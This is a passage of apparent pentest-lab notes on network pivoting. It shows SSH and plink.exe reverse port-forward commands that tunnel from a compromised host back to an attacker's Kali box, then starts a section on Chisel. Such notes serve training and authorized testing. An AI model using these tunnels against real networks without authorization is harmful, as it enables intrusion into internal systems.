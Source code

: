 With the key transferred, we can then connect back with a reverse port forward using the following command:
`ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN`
i.e `ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN`

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!


## `Pivoting` plink.exe 
Plink.exe is a Windows command line version of the PuTTY SSH client

```yaml
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

The cmd.exe /c echo y at the start is for non-interactive shells (like most reverse shells 


If we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80 back to port 8000 our own attacking machine (172.16.0.20), we could use this command:

`cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N`

## `Pivoting` Chisel 

[Chisel](https://github.com/jpillora/chisel) binary has two modes: client and server. You can access the help menus for either with the command: chisel client|server --help

![Alt text](/assets/img/posts/t03.png) 
